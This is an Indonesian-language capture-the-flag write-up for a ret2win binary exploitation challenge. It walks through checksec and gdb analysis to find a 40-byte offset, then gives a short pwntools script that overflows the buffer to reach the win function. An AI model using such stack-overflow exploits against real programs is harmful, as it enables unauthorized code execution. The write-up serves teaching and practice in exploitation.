 # aladin
### Category: Binary Exploitation

**Deskripsi:**
>terkadang sebuah perjuangan tidak hanya memerlukan usaha, tapi memerlukan bantuan dari dunia gaib, hehehe...
>
>Author: nabilmuafa

## Analisis
Pada Chall ini kita di berikan sebuah file binary, dikarenakan ini chall pwn/binary exploitation maka hal yang pertama kita lakukan yaitu 
melakukan checksec, untuk mengecek keamanan dari file tersebut

![Preview](images/1.png)

Disebutkan di sini no canary found yang artinya tidak ada byte random sebelum saved rbp, dan no pie yang artinya tidak ada pengacakan address
di dalam binary dan file nya 64 bit, maka dari itu kita bisa dengan mudah mengoverflow file ini.

langkah selanjutnya kita analisis file nya menggunakan gdb seperti ini

![Preview](images/2.png)

di lihat dari function yang ada, maka kita bisa simpulkan ini adalah chall ret2win
[link ini](https://book.hacktricks.xyz/binary-exploitation/stack-overflow/ret2win)

kita coba analisis fungsi vuln nya

![Preview](images/3.png)

set rsp nya 0x20 atau 32 + save rbp 8 byte = 40, kita bisa menimpa buffer untuk menuju return address dan mengubah return tersebut menjadi return ke win.
kalau masih kurang yakin kita bisa menggunakan gdb untuk mencari letak offset
karena buffer nya 32 maka 32+8 byte rbp yaitu 40 atau bisa kalian crashing programnya dan mencari offset rsp
caranya sudah banyak di internet kalau masih kurang paham.

![Preview](images/4.png)

## Penyelesaian
kalau sudah dapat offset ke return address nya sekarang buat paylaod nya seperti ini
payload = offset + return win

sekarang kita buat solvernya 
**solver**
```
from pwn import *

elf = context.binary = ELF('./chall')

p = process()

payload = flat(b'a'*40,elf.sym.win)

p.sendline(payload)
p.interactive()
```



